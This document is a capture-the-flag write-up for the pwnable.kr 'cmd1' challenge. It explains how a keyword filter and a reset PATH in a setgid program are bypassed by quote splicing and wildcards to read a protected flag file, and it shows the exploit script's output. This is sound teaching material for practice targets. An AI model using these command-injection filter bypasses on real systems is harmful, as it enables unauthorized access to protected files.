 # cmd1

## Description

```Text
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

## Analysis

```Shell
$ ssh fd@pwnable.kr -p2222
fd@pwnable.kr's password:
...

Last login: Sun Jun  6 02:43:55 2021 from 111.252.186.121
cmd1@pwnable:~$ ls -al
total 40
drwxr-x---   5 root cmd1     4096 Mar 23  2018 .
drwxr-xr-x 115 root root     4096 Dec 22 08:10 ..
d---------   2 root root     4096 Jul 12  2015 .bash_history
-r-xr-sr-x   1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r--   1 root root      320 Mar 23  2018 cmd1.c
-r--r-----   1 root cmd1_pwn   48 Jul 14  2015 flag
```

Without the permission to the flag, let’s take a look at the source:

```C
cmd1@pwnable:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}

```

Our input will be used as the entry parameter of the `system()`. So we should think of the following command:

`./cmd1 "cat flag"`

But there are two problems:

- Environment variable

  When we execute `cat`(or another command), the system will find the executable file` cat` from the path specified by the environment variable `PATH`.

  However, the value of the environment variable path has been changed, so we need to use `/bin/cat xxx` instead of `cat xxx`.

- function `filter()`

  The function of filter is to determine whether there is a specific string in our input. If there is, it will be ignored and not executed.

  > Ps: If not filtering string "tmp", we can extract permissions through SUID

  So we need use `"fla"g` instead of `flag` to disable it.

The complete command is as follows:

`./cmd1 "/bin/cat \"fla\"g`

> Tips: In addition to splicing commands, using wildcards is also an available method.
>
> e.g. `./cmd1 "/bin/cat fla*"`

## Solution

Write-up: [exploit.py](exploit.py)

```Shell
$ python3 exploit.py 
[+] Connecting to pwnable.kr on port 2222: Done
[*] random@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./cmd1') on pwnable.kr: pid 228719
[+] Receiving all data: Done (48B)
[*] Stopped remote process 'cmd1' on pwnable.kr (pid 228719)
[+] mommy now I get what PATH environment is for :)
[*] Closed connection to 'pwnable.kr'
```
